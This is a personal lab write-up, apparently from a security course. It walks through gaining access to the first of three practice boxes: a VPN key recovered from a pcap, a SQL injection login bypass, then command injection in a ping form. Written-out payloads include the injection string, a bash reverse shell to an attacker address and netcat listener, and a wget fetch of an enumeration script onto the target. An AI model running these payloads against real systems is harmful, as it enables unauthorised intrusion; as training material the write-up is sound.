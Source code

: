 # Keys to the Kingdom Pt. 1
A in depth walkthrough of how I solved a fairly realistic exercise one of my instructors put to me. This exercise was loads of fun and kept me entertained for quite a while with all of its little rabbit holes and misdirects. There will be 3 parts to this writeup as there were three different boxes to root. This is the first.

### It begins...
This is how it started, with a post from an instructor of mine in our class' Teams channel. "Find the 'Keys' To the Kingdom", he said and then posted a link to a file on google drive along with 3 IP addresses.

![S](Images/TheBegining.png)
#### So we have a couple of clues. 
From just that introduction, I noticed a couple of things that could give me an idea on where to go with this.
1. Keys. I wonder what sort of keys hes talking about? 
It could be a VPN key hidden in that packet capture, but it could also be an SSH key, or knowing him, it could be a misdirection. 

2. Our second clue comes from 2 of those IP's they are one after another in sequence. So it stands to reason they are on the same subnet and can only be accessed via this hypothetical VPN. \

#### Well only one way to find out! Lets open that pcap in Wireshark.

![S](Images/LotsOfPackets.png)

There are a little over 4000 packets in this pcap file but most of them dont tell me much. Theyre all around 90 in length. Maybe hidden within here is something more substantial. So I sort by length and find a file thats a bit longer. 

![S](Images/ThatsBetter.png)

Thats much better! We found a full openVPN key. With a little research about openVPN keys I find that I can copy this text directly into a file with the extension .ovpn and connect to the range using the command ``sudo openvpn <filenamehere>.ovpn``

#### ***90s hacker voice*** Im in.
![S](Images/ImIn.png)

## Now, the real fun begins...

I start by enumerating all 3 of the obtained IP addresses using [@dievus'](https://github.com/dievus) fantastic [Threader3000](https://github.com/dievus/threader3000) tool. I truly love this little guy. It makes portscanning so much quicker and more automated by quickly telling you which ports are up and then constructing an nmap scan tailored to that specific target. It only deeply scans the ports that its initial scan previously found to be open, which significantly speeds up your wait time. It also automatically outputs your scans into 3 different file formats which you can reference later. I love Threader3000 and cant sing its praises enough. So go check it out for yourself!
Anyway's, back to port scanning starting with...
## Box 1
![S](Images/nmap1.png)

Going for the lowhanging fruit (and the best option here), I decide to go check out the website on `port 8080`. Im greeted with a basic admin login page with the url extension `index.php`. This lets gives me an idea that I may be able to preform an sql injection but Im still not sure.

![S](Images/phpAdminPage.png)

So, I fire up BurpSuite and check out whats happening when i hit the login button.

![S](Images/burping.png)

Ok there's probably something here. 
Lets send this to the repeater module in Burp and check out whats going on. `ctrl+R` is a quick shortcut for moving requests from the Proxy tab into the Repeater Tab. Here, we can manipulate our requests for testing the right sort of attack.
Im focusing on the bottom line of this request, as this is where our username and password data goes. I added a single character in the username field and got this response back.

![S](Images/burping2.png)

This looks like the HTML for the login page. But what if I put some SQL into that field?
Maybe like, a common administrator name like `admin` along with `'OR '1'='1` What would happen?

![S](Images/burping3.png)

#### It worked!!!
Then I just take that same text `admin' OR '1'='1` and plug it into the username field on the actual site and I should be taken to the administrative console..

![S](Images/adminConsole.png)

Awesome, now we can probably use this ping page to get a shell into the actual machine. So, lets figure out how to do that.
First i typed an IP `127.0.0.1` into the field and got a pretty generic response. 
Sure that it was pinging, I tried to see if I could piggyback on that ping command using the semicolon

So I pinned a Print Working Directory command to the end of that local host ping `127.0.0.1;pwd` and got something much better.

![S](Images/Localpwd.png)

From here it was just a matter of making this machine (target) call back to my (attacker) machine.
As always I set up a netcat listener on my (attacker) machine using the command `nc -lvnp 4444` and then I went over to [pentest monkey's](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) reverse shell cheatsheet where I got the bash reverse shell.

When appended to the end of the localhost ping, the final command looked like this: 
`127.0.0.1;bash -i >& /dev/tcp/10.0.0.0/4444 0>&1`

#### Voila
![S](Images/revShell1.png)

Now we have to escalate our privileges. This is the part that took me the longest on this box as I was running around searching for an exploit that would work here. But we will skip over all of that and get straight into the meat. First I needed to check who I was, `id` let me know that I was apache and a `pwd` showed that I spawned in the `/var/www` directory.
Then I quickly upgraded my shell using `python -c 'import pty; pty.spawn("/bin/bash")'`
I couldnt touch any of the user accounts and I most definately didnt have root access. So, I decided to go to `/tmp` and see if I could place any files in there.
A quick `touch 1.txt` inside the directory, confirmed that I could. So, I went and grabbed a copy of linenum.sh, and saved it into my local directory where I was keeping all of the information about this box (nmap scans, notes, exploit code, etc.). 
**Note:** staying organized durring engagements is incredibly important. What I often do is create a subdirectory within my home directory and just work out of that the whole time. This helps keep everything organized and lets me refer back to things later if needed.


On my machine:

`python3 -m http.server`

On target machine:

`wget http://m.y.i.p:8000/linenum.sh`

`chmod +x linenum.sh`

`./linenum.sh`

Unfortunately I didnt get much information out of that, but I got enough. Which allowed me to go and search for an exploit to escalate my privileges.

![S](Images/linenumOutput.png)

## Box 2
![S](Images/nmap2_1.png)
#### Box 2 pt.2
![S](Images/nmap2_2.png)
#### Box 3
![S](Images/nmap3.png)

While I initially chose to go at all of these boxes at once, organizing myself through diligent note taking, I eventually decided to hit these boxes one at a time to keep all of my thoughts organized. So, that is the way Ill be writing this out from this point forward. 

Starting with the first scan, I see that there is an open http port on 8080 (not the default). So I go and check that site out but there isnt much to look at.
